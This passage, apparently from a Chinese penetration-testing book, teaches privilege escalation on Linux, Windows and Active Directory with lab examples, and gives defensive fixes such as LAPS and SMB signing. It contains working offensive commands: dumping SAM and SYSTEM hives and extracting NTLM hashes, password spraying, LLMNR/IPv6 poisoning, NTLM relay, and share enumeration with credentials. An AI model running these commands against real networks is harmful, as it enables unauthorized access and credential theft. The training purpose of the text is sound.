GTFOBins 中的许多其他二进制文件清晰地展示了如何提升权限并利用这些二进制文件获得访问权限。该项目可在 [https://gtfobins.github.io/](https://gtfobins.github.io/) 获取。

## 漏洞利用

最后，我们还有已知漏洞利用，可用来攻击系统以尝试获得进一步的访问权限。这些权限提升漏洞利用通常以 CVE 的形式定期发布，而且一般也会附带 PoC 代码。

许多系统管理员对本地权限提升漏洞的重视程度或严重性评估，远不如远程漏洞利用。这导致很多时候会发现主机缺少针对已披露多年、非常古老的漏洞的补丁。再加上停机风险或对生产应用程序造成损害的可能性，就不难理解为什么一些管理员不会定期应用这些补丁了。

识别这些漏洞利用可以通过几种方式完成；通常，需要检查程序版本，以判断其是否存在已知漏洞。这可能是一个漫长且耗时的过程，因此还有一些额外工具可以帮助加速这一过程并定位漏洞。

第一个工具是 Metasploit 模块 `post/multi/recon/local_exploit_suggester`。该模块需要从系统内的活动 Meterpreter 会话中运行，搜索目标架构上是否存在已知漏洞。这依赖于一个活动会话，因为模块将在该会话内运行。

```
msf6 post(multi/recon/local_exploit_suggester) > set session 3
session => 3
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 192.168.40.29 - Collecting local exploits for x86/linux ...
[*] 192.168.40.29 - 188 exploit checks are being tried ...
[+] 192.168.40.29 - exploit/linux/local/glibc_ld_audit_dso_load_priv_esc: The target appears to be vulnerable.
[+] 192.168.40.29 - exploit/linux/local/glibc_origin_expansion_priv_esc: The target appears to be vulnerable.
[+] 192.168.40.29 - exploit/linux/local/netfilter_priv_esc_ipv4: The target appears to be vulnerable.
[*] Running check method for exploit 35 / 58
```

**图 7.12** 在活动会话上运行 Local Exploit Suggester 模块。

模块运行完成后，将展示一个潜在提权路径列表，以及可使用的模块。这有助于确保我们提升到 root 级别的访问权限，同时也能在项目结束时为客户报告中提供证据。请记住，我们要尽可能提供更多的信息和价值！

```
[*] 192.168.40.29 - Valid modules for session 3:
```

| # | 名称 | 可能易受攻击？ | 检查结果 |
|---|---|---|---|

| 1 | `exploit/linux/local/glibc_ld_audit_dso_load_priv_esc` | 是 | 目标似乎存在漏洞。 |

| 2 | `exploit/linux/local/glibc_origin_expansion_priv_esc` | 是 | 目标似乎存在漏洞。 |


| 3 | `exploit/linux/local/netfilter_priv_esc_ipv4` | 是 | 目标似乎存在漏洞。 |

| 4 | `exploit/linux/local/ptrace_token_priv_esc` | 是 | 服务正在运行，但无法验证。 |

| 5 | `exploit/linux/local/su_login` | 是 | 目标似乎存在漏洞。 |

| 6 | `exploit/unix/local/setuid_nmap` | 是 | 目标存在漏洞。 `/usr/bin/nmap` 是 setuid |

| 7 | `exploit/linux/local/abrt_race...` | 否 | 目标无法被利用。 |

| 8 | `exploit/linux/local/abrt_osreport_priv_esc` | 否 | 目标无法被利用。 |

**图 7.13** 完成枚举后，将显示可能易受攻击的提权路径及其对应模块的列表。

另一个可使用的工具是 Linux Exploit Suggester，也称为 LES。该工具帮助枚举和识别目标机器可能存在的潜在漏洞利用。通常，它局限于基于内核的漏洞利用，这些漏洞会针对识别出的发行版版本进行检查和匹配。您可以在 `https://mzet.github.io/2019/05/10/les-paper.html` 找到并下载该工具。

最后，还有 LinPEAS。本章后面会介绍 PEASS 脚本，它们绝对值得一看！

## Windows 提权

与 Linux 类似，Windows 机器上也有许多额外的权限提升途径。其中许多依赖于内置的或其他敏感权限，而这些权限并不是 `Administrators` 组的直接成员。另外，Windows 以截然不同的方式运行服务等内容，这可能导致意想不到的结果。因此，Windows 中的许多提权路径依赖于错误配置，而不是典型的原始漏洞利用。

Windows 和 Active Directory 机器中存在多种不同类型的提权路径，并且随着新路径的发现会不断发布出来。本书的这一部分介绍了本地 Windows 机器中最常见且最易受攻击的一些配置。

为了隐藏恶意载荷，我们可以使用一个简单的载荷，比如 `net user` 命令，向机器添加一个新的管理员用户。这些载荷可以连同原始可执行文件一起使用 `msfvenom` 进行打包，更多关于这种攻击类型的细节请参见*第6章*。

## 空格毁所有

搜索顺序解析是 Windows 系统尝试以结构化顺序解析文件路径的过程。Windows 会根据文件路径来确定应尝试在何处查找文件，如果未妥善阻止，某些回退方法就可能被利用。这被追踪为 MITRE ATT&CK ID `T1574.008`，对应劫持执行流：通过搜索顺序劫持进行路径拦截。此外，未加引号路径的路径拦截（MITRE ATT&CK `T1574.009`）也利用类似的机制，名称包含空格的路径可能被劫持。

例如，我们上面的服务使用了一个文件夹，用户不仅对二进制文件本身有写权限，对其所在文件夹也有写权限。另一种基于未加引号服务路径的利用方式允许我们在 Windows 尝试查找可执行文件时，沿搜索顺序路径放置恶意程序。


**图7.15** 查找易受攻击服务的缺失引号。如果我们能写入这些位置，就可以劫持服务！

为了识别这一点，下面给出几条用于识别易受攻击服务的有用命令。第一条命令利用 `wmic` 命令确定所有服务，然后将结果传递给搜索条件，查找不在 `C:\Windows\` 目录中且信息中没有 `引号（"）` 的服务。

```text
wmic service get name,displayname,pathname,startmode | findstr /i "Auto"
| findstr /i /v "C:\Windows\\" | findstr /i /v "\""
```


**图7.18** 右键单击并选择“以管理员身份运行”来打开 PowerShell。


**图7.19** 现在我们的会话已分配了 `SeBackup` 特权！

Windows 10 将用户哈希存储在注册表的 `HKLM\SAM` 和 `HKLM\SYSTEM` 下。这两个注册表项用于存储哈希的加密版本和解密密钥。我们以备份操作员身份访问时，可以利用合法的备份操作来访问这些文件，从而获得副本。下面两条命令借助 `reg` 命令为这些注册表项创建本地副本，以便我们导出。

```powershell
reg save hklm\sam C:\Users\backupper\Desktop\sam.bak
reg save hklm\system C:\Users\backupper\Desktop\system.bak
```

保存后，可以将这些文件从系统中导出到我们的本地主机。拿到这些文件的副本后，我们可以使用 `Impacket secretsdump.py` Python 脚本解密访问这些哈希。我们在 `local` 模式下运行该脚本，在该模式下会解析并解密 `system` 和 `sam` 注册表配置单元以供访问。请记住，我们并不是在解密 NTLM 哈希，而是解密存储 NTLM 哈希的文件。

```text
impacket-secretsdump -system system.bak -sam sam.bak local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xcc08feb5e180f97703b1d2bafc06b34e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acd9e9dc6be7398dc4f74c09d2ac0cc5:::
chris:1001:aad3b435b51404eeaad3b435b51404ee:f2c0c177de720154d024a26e09f0feb3:::
backerupper:1002:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe700ee:::
[*] Cleaning up...
```

获得这些哈希后，我们有两个明确的选择：利用 Pass-the-Hash 攻击，或尝试破解出对应的明文。如何利用这些哈希留给读者作为练习。

## Active Directory 权限提升

攻击者有很多方法可以在 Active Directory（AD）环境中获得初始立足点并进行权限提升。通常，要发起针对 AD 的攻击，攻击者需要从一个低权限账户获得立足点，进而访问 AD 服务器。一旦获得，就会出现许多新的可利用的提权路径。同样，现代攻击者通常试图提升到管理员权限，以访问组织使用的最敏感信息。一旦获得这种访问权限，攻击者就会尝试发起各种类型的攻击，试图从利用中获取金钱收益。

### 未认证访问

在某些测试环境中，常见的情况是在没有凭据的情况下开始访问网络，然后访问网络上的服务。这些攻击可能极具破坏性，并且通常是出于操作需要而进行配置变更所产生的遗留问题。很多时候，这些配置变更原本是为了解决某个非常具体的问题，打算临时修复，但最终却比预期保留时间长得多。

### 匿名绑定

环境中常见的一种错误配置是在 AD 域控制器上允许匿名 LDAP 绑定权限。这允许没有账户的人查询和枚举 AD 中的敏感信息。要在没有凭据的情况下查询 AD 域控制器，请使用下面的命令：

```bash
ldapsearch -LLL -x -H ldap://test.local -b'' -s base '(objectclass=*)'
```

该命令使用 Linux 机器上的 `ldapsearch` 程序尝试与 Active Directory LDAP 服务器通信并查询信息。该程序尝试绑定到 LDAP 服务器并收集信息，也就是尝试从目录中的所有对象收集信息。如果允许匿名绑定访问，所有对象都将显示出来供我们查看。

通过匿名 LDAP 访问收集到的信息，我们可以获取环境中的所有用户名和计算机名。这也让我们可以使用 BloodHound 查询 AD 环境，该工具将在本章后面进一步讨论。用户名可用于在环境中发起其他攻击，例如 ASREPRoasting 和密码喷洒。

### 描述中的密码

账户描述中包含密码是大多数 AD 环境中一种出人意料的常见错误配置。作者完成的内网渗透测试中，超过四分之一至少有一个账户在描述中包含密码——这就是本章前面详细讨论它的原因。再次提醒，收集这些信息的有效方法是使用 PowerShell ActiveDirectory 模块。下面是一条有用的命令：

```powershell
Get-ADUser -Filter {Description -like "*"} -Properties * | Select-Object
samAccountName, Enabled, Description | Select-String -Pattern p.ss, pw,
pwd
```

识别账户描述中的密码，会使环境内密码喷洒攻击成功概率非常高。通常，这些描述中的密码可能是分配给用户用于初始登录的“模板”密码。这营造了一种有利于密码喷洒的环境，即我们使用极少量的密码去尝试大量用户名。

### Kerberos 用户枚举

Kerberos 的一个知名漏洞是可以通过分析 Kerberos 响应码来枚举域中的有效用户名。当向 Kerberos 提供无效用户名时，它会返回 `KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN` 错误，表示不存在该名称的主体。相比之下，发送有效用户名的请求时，会返回 `KRB5KDC_ERR_PREAUTH_REQUIRED` 代码。8, 9 利用这些响应码，我们可以构建枚举活动来确定域中的有效用户名。

由 ropnop 编写、可在 `https://github.com/ropnop/kerbrute` 获取的 `kerbrute` 工具，以 Go 原生二进制形式实现了这些概念。当配合大量潜在用户名列表时，我们可以尝试枚举域中的有效用户。要使用该工具，我们需要提供域控制器的 IP 以及将要枚举的域。


图7.20 运行 `kerbrute` 枚举网络上的有效用户名。

正如 ropnop 的仓库所述，这种特殊攻击更加隐蔽，因为它不会在 Windows 事件日志中生成“账户登录失败”事件。此外，在枚举攻击过程中似乎不会生成任何日志，除了在网络中传输的数据包本身。微软也表示，记录这些 Kerberos 请求是可能的，但需要启用特定的注册表项设置。

该设置位于 `HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa\\Kerberos\\Parameters`，要求 `LogLevel` 设置<sup>10</sup>为 `0x1`。一旦启用，它将显示 Kerberos 活动日志，并且当大量攻击涌入时会一目了然。然而，微软也表示这可能会对机器造成性能下降。在我们权衡可用性与安全性时，请牢记这一点。

## 密码喷洒攻击

如前所述，密码喷洒攻击是对系统中的大量账户尝试少量特定且有针对性的密码。密码喷洒背后的思路是，网络中的某个用户很可能会使用一个可预测的密码。当与环境内已知密码结合使用时，我们成功的机会将急剧增加。

在花费一些时间进行情报收集并读取环境中的信息之后，通常可以发现组织使用的“默认”网络密码。这可能像 `Password123456` 一样简单，也可能涉及诸如吉祥物或本地热门运动队之类的信息。通常，这些信息通过电子邮件共享或存储在文件共享中——一旦发现此类密码，我们就可以尝试将其喷洒到许多账户上，看看有多少账户有效。


**图 7.21** 密码喷洒攻击示意图，即对一个可能密码尝试多个账户。

有若干种不同的协议可用于通过密码喷洒有效攻击系统。LDAP、Kerberos 和 NTLM 是 AD 环境中最常用的三种协议，可用于各种密码喷洒攻击。我们手头有多种工具可供使用，但同时也有许多风险。

对账户喷洒过多密码可能会导致用户完全被锁定在账户之外。根据域的配置，账户可能会被锁定，直到经过特定时间段或被管理员手动解锁。强烈建议在开始密码喷洒攻击之前，先识别并了解密码策略。此外，告知联系人你的意图，并询问他们的实际密码策略是否与已识别的策略不同。

许多喷洒工具并不了解锁定时间窗口和锁定尝试次数，这会导致账户被锁定的风险。本文作者尝试过多种工具，但未能找到一款能完全符合特定喷洒攻击需求，并确信其能按预期运行的工具。为了解决这个问题，作者创建了 `pySpray` 程序。这是一个基于 Python 的程序，能够感知锁定时间和时间窗口。`pySpray` 程序可在 `https://github.com/m4lwhere/pySpray` 下载。

运行这个程序很简单，我们需要提供用户名列表、密码、域、锁定次数和锁定时间窗口。这还会告知用户将对环境尝试的总攻击次数，即密码数量乘以用户数量。这样做的目的是确保用户了解整个域中的身份验证尝试次数。这些不应被轻视，因为锁定攻击会导致可用性缺失。这可能造成极具影响力的事故，让付费客户非常不满！


**图 7.22** 使用 `pySpray` 工具配合 `LDAPspray`，对用户列表尝试密码喷洒。如参数所示，该攻击每 11 分钟等待并发送三次身份验证尝试。

在上面的截图示例中，我们看到一名用户的密码易于猜测。这是在创建可能密码列表、识别域密码策略，然后根据收集到的信息筛选出潜在密码之后发现的。此时，我们可以尝试登录该用户的账户，以确定是否有办法在环境中进一步横向移动。

## 多播 DNS 投毒

Windows 机器有几种通过 DNS 解析主机名的机制，包括向本地网络上的机器求助的回退机制。这意味着什么？如果我们能够毒化发送到本地子网广播域的请求，就可以说服一台机器连接到我们。从那里，我们可以捕获密码哈希用于身份验证，甚至可以将这些连接中继到其他机器（从而以被毒化机器的身份获得访问权限！）

### DNS 解析顺序

Windows DNS 以层级方式运作，系统需要将主机名解析为其对应的 IP 地址，才能在互联网上与其通信。Windows 将按以下顺序<sup>11</sup>解析此地址：

- 1. 客户端检查该名称是否是其自身的名称

- 2. `HOSTS` 文件（`C:\Windows\System32\drivers\etc\hosts`）

- 3. DNS 解析器缓存

- 4. 已配置的 DNS

- 5. NetBIOS 和链路本地多播名称解析（LLMNR）

### LLMNR

LLMNR 是多播 DNS 投毒的主要关注点之一，因为 Windows 机器会向本地子网的广播地址发送请求，寻求解析域名的帮助。在最初建立这一机制时，内部网络被视为可信的，不存在恶意行为者。然而在当今世界，内部网络不能再被隐式信任，必须始终视为可能存在对手访问。

要利用 LLMNR，我们只需等待 LLMNR 请求，然后用我们系统的地址进行回复。听起来相当简单，对吧？但实际如何实现呢？

### Responder

要在本地域中利用 LLMNR，可以使用 `Responder` 工具自动识别并响应本地子网上的 LLMNR 请求。这些响应会携带投毒信息，试图诱使目标机器连接到我们的机器。如果投毒成功，受害者将尝试连接到我们的攻击系统并泄露凭据。

使用 `Responder` 对 LLMNR 进行投毒在大多数网络中都非常有效，但它的动静很大，可能导致检测时触发警报。它所看到的每个 LLMNR、MDNS 和 NBT-NS 请求都会收到响应，这些响应在网络流量中可见。

为了运行 `Responder` 并降低被发现的可能性，我们可以使用 `-A` 参数来分析本地子网的流量。在分析模式下，`Responder` 不会尝试投毒任何请求，并允许我们对网络进行画像。强烈建议先以分析模式运行，然后再进行主动投毒，因为投毒可能会向他人暴露我们的位置。

除此之外，`Responder` 还可以通过模拟各种网络服务来捕获或收集系统中的凭据。例如，我们可以运行一个伪造的 LDAP 服务器，用于捕获来自被入侵打印机的凭据。这一点在[第 2 章](#)关于默认凭据的内容中进行了详细探讨，也可应用于使用 `Responder` 的内部网络等场景。

### IPv6 中间人攻击

尽管 `Responder` 非常擅长引诱来自多播 DNS 的 NTLM 连接，我们还可以利用 Windows 中额外的内置和默认偏好来尝试接管。其中之一是 Windows 对 IPv6 的偏好，即在本地网络中，IPv6 协议优先于 IPv4。我们可以利用这一点，在本地子网上通告恶意的 IPv6 信息，使本地机器使用我们的路由而不是合法的 IPv4 路由。完成此操作的工具是来自 Dirk-jan Mollema 的 `mitm6`，可在 `https://github.com/dirkjanm/mitm6` 获取。


这与`Responder`有很大不同，因为`Responder`尝试投毒多播 DNS。而使用`mitm6`，我们提供新的 DNS 和路由信息，以说服本地主机改用我们的主机。这使我们处于中间位置，因此该工具被恰当地称为中间人 6。我们可以通过指定要响应的域来运行该工具，并将其缩小到仅限特定的内部域。通过有选择地选择域，如果用户无法访问某些资源，我们可以减少对网络内部的冲击。

为了利用这一点，我们可以使用以下命令。此片段来自 Game of Active Directory 实验室（GOAD），这是在一个林中配置为易受攻击的完整域集合。GOAD 由 Orange Cyberdefense 创建，可在 GitHub 上获取：https://github.com/Orange-Cyberdefense/GOAD。以下`mitm6`命令尝试接管`sevenkingdoms.local`和`essos.local`域的活动：

```
mitm6 -i vboxnet0 -d sevenkingdoms.local -d essos.local
```

请记住，每当我们投毒响应或尝试执行中间人技术时，总是存在可能破坏可用性的风险。为此，`mitm6`会智能地选择

请确保 DNS 记录的生存时间（TTL）值非常低。如果我们错误地导致资源不可用，用户只需等待五分钟或重启机器即可恢复访问。但是，我们必须尽可能降低这种概率。

### 预防多播 DNS 攻击

为了预防并降低多播 DNS 攻击的风险，我们可以在域级别强制实施 GPO，以阻止使用 LLMNR。这是一种有效的控制措施，因为现代企业网络不需要在配置的 DNS 服务器之外使用备用 DNS 解析机制。

## NTLM 中继攻击

NTLM 中继以 NT LAN Manager 身份验证协议命名，利用了 Windows 身份验证的基础机制，试图在域内未授权访问区域。攻击者置身于两个受害者之间，可以支配和控制正在发生的活动。

要利用这一点，我们可以使用`NetExec`工具来识别域中哪些机器未强制实施 SMB 签名。找到这些机器后，我们就能跟踪哪些机器在中转入站连接时可能被利用。为此，我们可以运行以下命令：

```
nxc smb 192.168.56.0/24 --gen-relay-list relayable.txt
```


**图 7.23** 运行`NetExec`获取未强制实施 SMB 签名的机器列表。

现在我们有了保存为`relayable.txt`的易受攻击机器列表，可以使用`Impacket`的`ntlmrelayx.py`脚本针对检测到的机器发起攻击。该脚本的作用是接收传入的 NTLM 连接，并尝试将其中继到其他机器以建立连接。使用`-tf`开关时，我们可以向程序提供一个目标文件，让它尝试与这些目标建立连接。`-socks`开关将为任何成功的连接建立 SOCKS 代理，使我们能够按需持续利用该连接。

```
ntlmrelayx.py -tf relayable.txt -smb2 -socks
```

要练习这个技术并更深入地学习，有若干优秀的实训和资源可用。最好的学习资源之一是 Jean-François Maes 的《NTLM Relaying 101》，它以 GitBook 形式发布于 https://jfmaes-1.gitbook.io/ntlm-relaying-like-a-boss-get-da-before-lunch/。

要解决这个问题，强制实施 SMB 签名至关重要。这可以防止对资源的未授权操作，从而保护域的完整性。

## 已认证访问

获得对 AD 的已认证访问可以揭示大量有关如何攻击目标的信息。我们不仅能够访问一些潜在的 SMB 共享，还可以在 LDAP 中收集信息以寻找潜在的提权路径。

### SMB 共享

已认证账户的访问权限可能允许通过 SMB 访问域内多台计算机上的文件共享。用户往往会在文件共享中保存诸如密码之类的内容，这会让提权变得更加容易。更糟糕的是，一些管理员会在共享中存储包含凭据的 PowerShell 和批处理脚本。访问 SMB 共享以搜索敏感文件不仅有效，而且对应的 ATT&CK ID 为`T1135`¹²。

有多种工具可以帮助我们实现这一目标，例如`NetExec`工具¹³，它是`CrackMapExec`工具的最新替代品。该工具可用于多种不同功能，例如密码喷洒，但根据作者的经验，该工具的亮点在于它能够系统地访问网络中的 SMB 共享。`NetExec`不需要我们以单机和手动的方式尝试 SMB 登录和枚举，而是允许我们提供 IP 列表或 CIDR 来枚举共享。这提高了我们完成测试的效率。

```
root@t470:~# nxc smb 192.168.56.0/24 -u robb.stark -p sexywolfy --shares
SMB 192.168.56.12 445 MEEREEN [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain...
SMB 192.168.56.1 445 server_name [*] UNIX (name:server_name) (domain:WORKGROUP) (signing:False) (SMBv1:True)
SMB 192.168.56.10 445 KINGSLANDING [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms...)
SMB 192.168.56.11 445 WINTERFELL [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdc
SMB 192.168.56.12 445 MEEREEN [*] essos.local\robb.stark:sexywolfy STATUS_LOGON_FAILURE
SMB 192.168.56.23 445 BRAAVOS [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain...
SMB 192.168.56.22 445 CASTELBLACK [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingt
SMB 192.168.56.1 445 server_name [*] WORKGROUP\robb.stark:sexywolfy STATUS_ACCESS_DENIED
SMB 192.168.56.1 445 server_name [*] Error enumerating shares: STATUS_ACCESS_DENIED
SMB 192.168.56.10 445 KINGSLANDING [-] sevenkingdoms.local\robb.stark:sexywolfy STATUS_LOGON_FAILURE
SMB 192.168.56.11 445 WINTERFELL [*] north.sevenkingdoms.local\robb.stark:sexywolfy (Pwn3d!)
SMB 192.168.56.23 445 BRAAVOS [*] essos.local\robb.stark:sexywolfy
SMB 192.168.56.22 445 CASTELBLACK [*] north.sevenkingdoms.local\robb.stark:sexywolfy
SMB 192.168.56.23 445 BRAAVOS [*] Enumerated shares
```

| 共享 | 权限 | 备注 |
|---|---|---|
| `ADMIN$` | READ,WRITE | 远程管理 |
| `C$` | READ,WRITE | 默认共享 |
| `CertEnroll` | | Active Directory 证书服务共享 |
| `IPC$` | | 远程 IPC |
| `public` | 基本 | 所有域用户均可读取的共享 |

```
SMB 192.168.56.22 445 CASTELBLACK [*] Enumerated shares ...
```

图 7.24 使用已知凭据运行`NetExec`枚举 CIDR 范围内的共享。

以 2022 年 9 月的 Uber 数据泄露事件为例，攻击者利用了开放的 SMB 共享，其中包含 PowerShell 脚本中的明文管理员凭据。这充分展示了该威胁的现实影响，以及如果没有定期的渗透测试和威胁模拟，要妥善发现它会有多困难。Uber 这家 3180 亿美元的公司都为此困扰——我们如何从他们的错误中吸取教训来保护其他环境？

### SYSVOL 共享

`SYSVOL`是域控制器中的一个特定共享，用于支持域功能。该文件夹用于支持域内的 AD 功能，并且必须对域内公开，以便用户和计算机访问。通常，此文件夹中包含大量组策略对象和引用。通过组策略在这些文件夹中存储本地管理员密码的情况不太常见，但依然很有可能。

这种 GPO 会在公共文件夹中存储加密的本地管理员密码，但 Microsoft 已在线公开了加密密码。¹⁴ 这意味着任何能在`SYSVOL`文件夹中找到本地管理员密码的人都可以解密它，并尝试借此访问本地机器。

此外，许多管理员会将域脚本存储在`SYSVOL`上的`scripts`文件夹中。这是管理员常用的一种技术，用于确保用户和机器在启动或登录时运行特定脚本。其中一些脚本会尝试执行映射驱动器或运行额外程序等操作，请留意这些脚本，因为它们可能泄露敏感信息。

在作者的专业经验中，一次内部测试发现`SYSVOL\scripts`文件夹中的一个域脚本使用了管理员账户的加密密码。该密码被用来在域用户登录时以提权账户身份运行功能和进程。对二进制文件和加密密码进行简单的逆向工程即可揭示该账户使用的明文密码，这是该次渗透中用于攻陷域的几条途径之一。

### 本地管理员访问

在许多情况下，我们会获得域内某台本地机器的管理员访问权限，并意图逐步提权到域管理员。实现这一目标的方法有多种，例如收集本地管理员账户的密码或 NTLM 哈希。系统管理员需要能够以本地管理员身份登录机器，以便在机器无法访问网络时修复问题。然而，如果所有机器都使用相同的本地管理员密码，那么攻击者就可能利用这一身份验证材料在域内其他机器之间横向移动。

为了修复此问题，请使用 Microsoft 本地管理员密码解决方案（LAPS）。它利用 Active Directory 管理本地管理员的身份验证材料，为每台机器设置唯一密码。实施 LAPS 简单易行，可确保尽可能多地在环境中使用。

## BloodHound

`BloodHound`是由 SpecterOps 开发的一款工具，用于枚举和发现 AD 权限中的攻击路径。`BloodHound`可以发现许多难以识别或理解的提权路径，并提供便捷的基于图形的可视化。该工具能够有效展示环境中攻击路径的利用者及其利用方式。

`BloodHound`的工作原理是使用收集代理从 AD 中收集所有可用信息，然后将其导入`Neo4j`数据库进行存储。`BloodHound` GUI 连接该数据库，以可视化形式进行分析。这种可视化分析不仅帮助作为攻击者的我们看到提权路径，也帮助系统管理员和业务决策者理解并直观地了解风险水平。作者一直在给客户的报告中使用`BloodHound`的截图，以易于理解的方式展示信息。

`BloodHound`也是 MITRE ATT&CK 框架中列出的工具，工具 ID 为`S0521`。¹⁵ 至少有四个已命名的已知威胁行为者利用`BloodHound`攻击 AD 域以谋取个人利益。熟悉该软件将帮助我们理解并向客户展示风险，从而最终降低运营风险。

请注意，截至 2023 年 8 月，`BloodHound Community Edition`已发布。与`BloodHound Legacy`版本相比，它提供了若干优势，例如完全容器化的架构。此外，`Cypher`查询速度更快，CE 还支持 API。在本节中，我们将探讨`BloodHound CE`，因为`BloodHound Legacy`已不再受支持。

### 嗅探数据

要分析 AD 环境中潜在的提权路径，必须使用收集工具对网络进行枚举，以获取所有对象及其关系的列表。这可以通过`BloodHound`收集代理完成，该代理可以通过 C# 可执行文件、PowerShell 脚本，甚至从基于 Linux 的机器上使用 Python 来运行。通常，这需要用户级权限才能绑定到域控制器。

作者更喜欢 Python 版本的收集器，也称为`bloodhound.py`。该工具是 Kali 软件源的一部分，可以使用`sudo apt install bloodhound.py`安装。通过`apt`安装后，可以使用`bloodhound-python`命令运行它。要从 AD 收集数据并导入`BloodHound` GUI，我们必须提供凭据来获取信息。收集方法有多种，但通常我们应该选择`all`，以确保我们拥有尽可能多的数据来搜索整个域。


**图 7.27** 首次登录`BloodHound CE`容器。

请注意，在首次登录期间，我们需要将密码重置为一个新密码。这非常简单！


**图 7.28** 在首次登录时设置新密码。

登录到应用程序后，我们需要上传数据以进行查看。这可以通过点击初始页面上的链接并跳转到 File Ingest 页面来完成。


**图 7.29** 登录`BloodHound`应用程序后，暂时还没有可供分析的数据。点击“File Ingest”页面上传数据。

在 File Ingest 页面上，我们可以点击 UPLOAD FILE(S) 按钮打开上传页面。请注意，我们不能直接拖拽整个 ZIP 文件上传，而必须先解压所收集的数据。解压后，我们可以将提取出的 JSON 文件拖入上传窗口。


**图 7.30** 在 Ingest 页面中找到 UPLOAD FILE(S) 按钮。


**图 7.31** 解压 ZIP 文件后，我们可以将文件拖放到上传页面中。

点击 Upload 按钮后，我们会看到下方显示新文件正在导入的状态。根据文件大小，这可能需要几秒钟到将近 15 分钟不等，请耐心等待！


**图 7.32** 上传后正在导入的文件。

文件导入完成后，我们可以点击 EXPLORE 按钮返回`BloodHound`主页。请注意，此时页面上似乎还没有显示任何信息，因此我们需要点击几个按钮来开始探索数据。


**图 7.35** 点击“All Domain Admins”搜索后，我们就能查看并可视化从收集到的数据中提取的信息。

现在屏幕上有节点了，我们可以点击这些节点来识别和查看各个对象的属性。这有助于我们更近距离地探索感兴趣的对象，并发现这些关系可能如何被利用的有趣信息。


**图 7.36** 点击屏幕上的某个对象会打开 Object Information 面板，让我们注意到更多关于该对象的信息。

在 Object Information 面板中向下滚动，我们可以看到“Inbound Object Control”按钮。这里列出了所有具有某种控制权的不同关系，以修改

除了使用内置查询外，我们还可以直接在`BloodHound`中请求特定对象之间的路径。当我们拥有某个可控的特定账户，并希望确定如何获得进一步访问权限时，这非常有用。在 Game Of Active Directory 场景中，`samwell.tarly`账户是一个低权限用户，其密码位于 LDAP 的描述字段中。要识别路径，请点击 PATHFINDING 按钮，然后输入起始节点和结束节点。`BloodHound`将搜索可以利用这些关系来获取目标访问权限的路径。


**图 7.39** 使用 Pathfinding 来寻找如何利用两个特定对象之间的关系。

在这个场景中，我们为`samwell.tarly`找到了一种将几种不同权限链接在一起以获得 Domain Administrators 组访问权限的方法。这依赖于对某个 GPO 的某些权限，而该 GPO 可在域上使用。实际利用此链接关系将留给读者作为练习。我们在本章开头掌握的技能将开始发挥作用，并帮助我们向客户解释此类攻击的风险。

强烈建议尝试使用各种内置查询，试着了解域中可以发现哪些活动。还可以在`BloodHound`中提供许多额外的自定义查询以进行进一步分析，在 https://github.com/CompassSecurity/BloodHoundQueries 上有几个优秀的社区查询集合。本文作者还撰写了一份全面的`BloodHound`社区版安装与配置指南，可在 https://medium.com/@m4lwhere/the-ultimate-guide-for-bloodhound-community-edition-bhce-80b574595acf 获取。

## 提供价值


BloodHound 是一款出色的工具，可以通过多种方式加以利用，从识别和利用攻击路径到帮助向客户可视化风险。熟悉该工具将使你成为一名优秀的测试人员，从而降低整个企业的风险。为了保持了解最新动态并理解该工具，建议访问并阅读 `https://bloodhound.readthedocs.io/en/latest/` 上的 BloodHound 文档。请记住，工具的价值取决于你使用它们的能力！

## WADComs

WADComs 项目与 GTFOBins 项目类似，为使用各种程序评估 Windows 环境提供了极好的参考。该速查表可在 `https://wadcoms.github.io/` 获取，是极其有用的参考资料。通过提供交互式界面，用户可以浏览如何利用与 Windows 和 AD 环境相关的攻击性安全工具。


**图 7.40** WADComs 网站主页截图。

该速查表的组织方式支持以交互方式根据访问级别、服务、操作系统和攻击类型来确定如何使用这些资源。从无凭据（No Creds）开始，我们可以确定可能获得哪些类型的信息或访问权限。这里不仅有命令列表，还有一组标签，用于区分这些命令应在 Windows 还是 Linux 机器上运行。

| 你拥有 | 服务 | 攻击类型 | 操作系统 |

| --- | --- | --- | --- |

| 用户名 · 密码 · 无凭据 · 哈希 · TGT · PFX · Shell | TGS · SMB · WMI · DCOM · Kerberos · RPC · LDAP · NTLM · DNS | 枚举 · 利用 · 持久化 · 权限提升 | Linux · Windows |

**无凭据（No Creds）**

### 命令

```bash
python3 smbmap.py --host-file smb-hosts.txt -d test.local -L
```

- 枚举 · 无凭据 · SMB · Linux · Windows

```bash
smbclient -L \\test.local -I 10.10.10.1 -N
```

- 枚举 · 无凭据 · SMB · Linux

**图 7.41** 使用 WADComs 的 No Creds 选项来查看可用的攻击性命令列表。

WADComs 项目可用于快速查阅如何在 Windows 环境中枚举和利用已获取的信息。随着测试过程中收集到更多信息，关注 WADComs 有助于就如何利用访问权限产生更多思路。

## PEASS PLEASE！

权限提升超级脚本套件（Privilege Escalation Awesome Script Suite，PEASS）是 Carlos Polop 的一个项目，用于检查本地机器上许多众所周知的提权向量。这些脚本是帮助确定从立足点到更多账户和管理员访问权限的提权路径的绝佳资源。

该脚本需要下载并传递到目标机器，但可以将其放到内存中执行，而不是在磁盘上留下痕迹。与我们执行 PowerShell ActiveDirectory 模块导入的方式类似，我们可以将脚本放入管道对象中传递并执行。

